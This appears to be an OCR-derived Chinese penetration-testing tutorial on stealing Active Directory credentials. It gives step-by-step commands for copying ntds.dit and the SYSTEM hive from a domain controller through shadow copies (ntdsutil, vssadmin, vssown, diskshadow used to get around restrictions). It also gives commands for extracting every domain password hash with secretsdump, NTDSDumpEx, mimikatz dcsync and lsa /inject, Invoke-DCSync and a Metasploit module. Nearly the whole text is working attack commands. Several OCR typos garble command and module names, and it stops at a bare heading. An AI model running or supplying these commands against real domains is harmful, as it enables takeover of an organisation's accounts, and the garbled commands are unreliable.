 # 介绍ntd
ntds.dit是主要的AD数据库，存放在c:\\windows\\NTDS\\NTDS.dit，包括有关域 用户，组和成员身份的信息，它还包括域中所有用户的密码哈希值，为了进一步保 护哈希值，使用存储在SYSTEM注册表配置单元中的密钥对这些哈希值进行加密。 因为这两个文件属于系统特殊文件，不能直接复制粘贴，所以需要用特殊的方式来 复制粘贴。

# 为什么要使用卷影拷贝
在通常情况下，即使拥有管理员权限，也无法读取域控制器中的 C:\\Windows\\NTDS\\ntds.dit文件（活动目录始终访问这个文件，所以文件被禁止读取 当c盘处于非活动目录 就可以访问 附：pe原理）使用windows本地卷影拷贝服务，就可以获得文件的副本

# 使用卷影拷贝服务提取ntds.dit

## ntdsutil
ntdsutil概述：
Ntdsutil.exe是一个为Active Directory提供管理设施的命令行工具。可使用ntdsutil.exe执行Active Directory的数据库维护，管理和控制的单机操作，创建应用程序目录分区，以及删除由未使用Active Directory安装向导（DCPromo.exe）成功降级的域控制器留下的元数据，该域控制器上操作。
支持的系统为：server2003、server2008、server2012

a)通过ntdsutil.exe提取ntds.dit
创建快照：
Ntdsutil snapshot “activate instance ntds” create quit quit
挂载快照
ntdsutil snapshot “mount {GUID}” quit quit
拷贝快照：
copy C:\$SNAP_201808131112_VOLUMEC$\windows\ntds\ntds.dit c:\ntds.dit
卸载并删除快照
Ntdsutil snapshot “unmount {GUID}” “delete {GUID}” q q
查看快照：
ntdsutil snapshot “List All” q q

b) 利用vssadmin提取ntds.dit
创建c盘卷影拷贝：
vssadmin create shadow /for=c:
在创建的卷影拷贝中将ntds.dit复制出来
copy 
\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy4\windows\NTDS\ntds.dit 
c:\ntds.dit
卸载并删除卷影
vssadmin delete shadows /for=c: /quiet

c) 通过vssown.vbs提取ntds.dit
启动卷影拷贝服务：
cscript vssown.vbs /start
创建c盘卷影拷贝：
cscript vssown.vbs /create c
列出卷影拷贝
cscript vssown.vbs /list
在创建的卷影拷贝中将ntds.dit复制出来
copy 
\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5\windows\NTDS\ntds.dit 
c:\ntds1.dit
删除卷影
cscript vssown.vbs /delete {ID}

d)使用ntdsutil的IFM创建卷影拷贝
ntdsutil “ac i ntds” “ifm” “create full C:\ntdsutil” quit quit
最终会在C:\ntdsutil找到utds.dit和system.hive
C:\ntdsutil\registry\system —→system.hive
C:\ntdsutil\C:\ntdsutil\Active Directory\ntds.dit

e) 使用diskshadow导出ntds.dit
Diskshadow这款工具的代码是微软官方签名的，server2008-2016都默认包含diskshadow，且为白名单程序，它可以使用卷影拷贝服务所提供的多个功能，
Diskshadow有交互和非交互两种模式，在使用交互模式时，需要登录远程桌面的图形化管理页面，无论是交互模式还是非交互模式，都可以使用exec调取一个脚本
文件来执行相关命令，但在实战中，一般使用非交互模式来执行命令，可以绕过很多限制。
比如让其执行文件里面的命令:
Echo exec c:\windows\system32\calc.exe > c:\11.txt
Diskshadow /s c:\11.txt

e) 使用diskshadow导出ntds.dit
将如下命令写到一个11.txt文件中
set context persistent nowriters //设置卷影拷贝
add volume c: alias someAlias //添加卷
create //创建卷
expose %someAlias% k: //分配虚拟磁盘盘符
exec “c:\windows\system32\cmd.exe” /c copy k:\windows\NTDS\ntds.dit c:\ntds.dit 
//将ntds.dit复制到c盘
delete shadows all //删除快照
list shadows all //列出卷影拷贝
reset //重置
exit //退出

e) 使用diskshadow导出ntds.dit 这里shell路径必须切换到c:\windows\system32
然后将如上文件传到目标机，然后调用执行文件中的命令
Diskshadow /s c:\11.txt

8. 监控卷影拷贝服务的使用情况

# 导出NTDS.DIT中的散列值

1. 使用esedbexport恢复ntds.dit

1.1使用esedbexport恢复ntds.dit
安装libesedb
Wget https://github.com/libyal/libesedb/releases/download/20210424/libesedbexperimental-20210424.tar.gz
apt-get install autoconf automake autopoint libtool pkg-config
./configure
Make
Make install
Idconfig
然后再kali里面
esedbexport –m tables ntds.dit
然后将ntds.dit.export文件夹和system文件复制到ntdsextract中解析出信息


1.2 使用ntdsextract导出散列值。
下载后，安装：
python3 setup.py build && python3 setup.py install
导出用户名及散列值：
dsusers.py ntds.dit.export/datatable.4 ntds.dit.export/link_table.6 output --syshive
SYSTEM –passwordhashes –pwdformat ocl –ntoutfile ntout --lmoutfile lmout |tee 
all_user.txt
导出所有域信息：
dscomputer.py ntds.dit.export/datatable.4 computer_ouput –csvoutfile
all_computers.csv

2. 使用impactet工具包导出散列值

下载连接： https://github.com/SecureAuthCorp/impacket
上传到kali并安装：
python setup.py install
导出散列值命令：
python3 secretsdump.py -ntds ntds.dit -system system.hive LOCAL

3. 在windows下解析ntds.dit并导出域账号和域散列值

下载地址：
https://github.com/zcgonvh/NTDSDumpEx/releases/download/v0.3/NTDSDumpE
x.zip
使用NTDSDumpex.exe可以进行导出散列值的操作， 将程序上传到目标主机，然
后将导出ntds.dit和system.hive放到一起，让后用程序进行导出散列值。
命令如下：
NTDSDumpex.exe –d ntds.dit –s system.hive –o hash.txt

# 利用dcsync获取域散列值
1，使用mimikatz转储域散列值
以管理员权限打开命令行环境，运行mimikatz输入以下命令：
lsadump::dcsync /domain:tys1.com /all /csv 导出所有用户名及散列值
lsadump::dcsync /domain:tys1.com /user:administrator /csv
也可以直接在域控制器中运行mimikatz，通过转储lsass.exe进程堆散列值进行
dump操作，命令如下：
privilege::debug
lsadump::lsa /inject
如果用户数量过多，可以先执行log命令（这样就会在mimikatz目录下生成一个文
本文档，用于记录mimikatz的所有执行结果。
2，使用dcsync获取域账号和域散列值
Invoke-DCSync.ps1 可以利用dcsync直接读取ntds.dit，以获取域账号和域散列值
命令为：
invlke-DCSync –PWDumpFormat
该参数用于对输出内容进行格式化。
Invoke-DCSync -DumpForest | ft -wrap –autosize 导出所有用户hash
导出administrator用户hash：
Invoke-DCSync -DumpForest -Users @("administrator") | ft -wrap -autosize

# 使用metasploit获取域散列值

使用metasploit获取域散列值
在kali中进入MSF环境，输入以下命令，来使用pscexec_ntdsgrab模块
use auxiliart/admin/smb/psexec_ntdsgrab
show options
配置参数：RHOST、SMBDomain、SMBUser、SMBpass
配置好以后，执行exploit命令即可获取ntds文件
执行成功后,ntds.dit会存储到/root/.msf4/loot/文件夹下面

# 使用vshadow.exe和quarkspwdump.exe导出域账号提取域散列值
